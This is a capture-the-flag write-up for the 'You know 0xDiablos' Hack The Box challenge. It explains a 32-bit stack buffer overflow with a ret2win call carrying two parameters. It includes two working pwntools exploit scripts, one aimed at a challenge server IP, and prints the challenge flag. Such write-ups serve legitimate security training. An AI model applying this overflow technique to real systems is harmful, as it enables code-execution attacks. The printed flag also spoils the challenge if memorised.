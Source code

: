 # You know 0xDiablos
> Write-up author: jon-brandy
## DESCRIPTION:
I missed my flag

## HINT:
- NONE
## STEPS:
1. First unzip the file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207644786-2b71a2bc-31f0-41b8-a85e-cd0c08f73f45.png)


2. Let's try to unzip it using `7z`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207645014-3ceb1439-e40d-401c-9bac-cf5ff74e6319.png)


3. Check the file type and the binary's protection.

> FILE TYPE

![image](https://user-images.githubusercontent.com/70703371/207645137-32ecbc90-2592-4b19-b6df-dd9f5df8ce9f.png)


```
32 Bit file, dynamically linked and not stripped.
```

> FILE'S PROTECTION

![image](https://user-images.githubusercontent.com/70703371/207645250-d4f9fb33-affa-423e-9ced-5d3e598f6897.png)


4. Now let's make the file executeable first by run `chmod +x vuln`, then run the file.

> INPUT ANY LENGTH OF A'S - RESULT

![image](https://user-images.githubusercontent.com/70703371/207646431-c05472b6-a7a9-4d81-b232-86bf038355c9.png)


5. As we know, since there's **no canary found**, then we can overflow the buffer.
6. I opened GDB and copied 1024 cyclic pattern, then run the file.

> GDB

![image](https://user-images.githubusercontent.com/70703371/207648015-176a3305-6214-49c3-93e5-1b13789cd213.png)


![image](https://user-images.githubusercontent.com/70703371/207648543-ac71b49a-166f-4bb2-801a-5b79be6a2c2b.png)


7. Copy the 4 chars in **EIP** , then do `cyclic -l waab`

```
EIP stands for Extended Instruction Pointer.
```

![image](https://user-images.githubusercontent.com/70703371/207649036-6d15d6e0-d67f-4ff3-813a-5594fa0f3660.png)


![image](https://user-images.githubusercontent.com/70703371/207649107-2487380c-4c9c-48ff-b372-032d07887552.png)


8. Now we know, we need to add 188 bytes as the padding.
9. Next, let's decompile the binary using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207650199-f2fbdcf8-f495-478a-af85-edf6cbd5b5cb.png)


10. Check the `flag()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207650433-f2e6fe7e-7228-4f7c-829f-2c9ed0468f99.png)


11. Since the `flag()` function has parameters, then we can conclude it's a ret2win concept but with parameters.
12. To do ret2win with param in 32 Bit, the payload shall look like this:

```
padding + flagAddr + returnAddress + param1 + param2
```

13. Copy the param1 and param2 value.

> PARAM 1 & PARAM 2 (BOTH IN CHAR FORMAT)

![image](https://user-images.githubusercontent.com/70703371/207764429-ab1cbfe6-071b-4653-b900-73dd82c01f24.png)


14. For the return address, we want to return to the main() function just for safety. But actually you can add 4 bytes of characters as a junk.
15. So this is the final script:

```py
from pwn import *
import os

'''
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


#gdbscript = '''
#init-pwndbg
#continue
'''.format(**locals())
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
'''

os.system('clear')

context.log_level = 'debug'

sh = remote('157.245.35.145', 32410)
flagAddr = 134517218 # 0x80491e2
param1 = 3735928559 # 0xdeadbeef
param2 = 3235827725 # 0xc0ded00d
p = b'A' * 188 
p += p32(flagAddr)
p += p32(134517425) #0x80492b1 
p += p32(param1)
p += p32(param2)
sh.recvuntil("\n")
sh.sendline(p)

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/207765889-37a0079a-581a-4746-b1c9-673a1e26fa48.png)


16. Got the flag!


## FLAG

```
HTB{0ur_Buff3r_1s_not_healthy}
```

## ALTERNATE SOLVER

> using ropstar

```py
import os
from pwn import *

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vuln'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

padding = asm('nop') * 188 # EIP OFFSET

rop = ROP(elf)

rop.flag(0xdeadbeef, 0xc0ded00d)

send = padding + rop.chain()

sh.sendline(send)

get = sh.recvall()
print(get)

print(rop.dump())

sh.interactive()
```


